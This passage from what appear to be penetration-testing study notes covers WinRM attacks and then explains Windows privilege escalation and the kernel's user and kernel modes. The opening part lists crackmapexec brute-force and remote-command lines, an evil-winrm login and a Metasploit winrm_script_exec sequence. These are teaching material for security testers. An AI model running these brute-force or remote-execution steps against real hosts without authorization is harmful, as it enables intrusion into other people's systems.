 **Brute-force:**

- *crackmapexec winrm* target *-u username/userlist -p password/passlist*

**Execute Commands:**

- *crackmapexec winrm* target *-u username -p password -x "command"*

### evil-winrm

- *evil-winrm.rb -u user -p 'password' -i* target

### WinRM Metasploit

> search winrm_script

> use exploit/windows/winrm/winrm_script_exec

> set RHOSTS ip

> set USERNAME user

> set PASSWORD pass

> set FORCE_VBS true

> exploit

# Windows Privilige Escalation

## Privilege Escalation

- Privilege escalation is the process of exploiting vulnerabilities or misconfigurations in systems to elevate privileges from one user to another, typically to a user with administrative or root access on a system.
- Privilege escalation is a vital element of the attack life cycle and is a major determinant in the overall success of a penetration test.
- After gaining an initial foothold on a target system you will be required to elevate your privileges in order to perform tasks and functionality that require administrative privileges.
- The importance of privilege escalation in the penetration testing process cannot be overstated or overlooked. Developing your privilege escalation skills will mark you out as a good penetration tester.

## Windows Kernel

- A Kernel is a computer program that is the core of an operating system and has complete control over every resource and hardware on a system. It acts as a translation layer between hardware and software and facilitates the communication between these two layers.
- Windows NT is the kernel that comes pre-packaged with all versions of Microsoft Windows and operates as a traditional kernel with a few exceptions based on user design philosophy. It consists of two main modes of operation that determine access to system resources and hardware:
    - User Mode – Programs and services running in user mode have limited access to system resources and functionality.
    - Kernel Mode – Kernel mode has unrestricted access to system resources and functionality with the added functionality of managing devices and system memory.

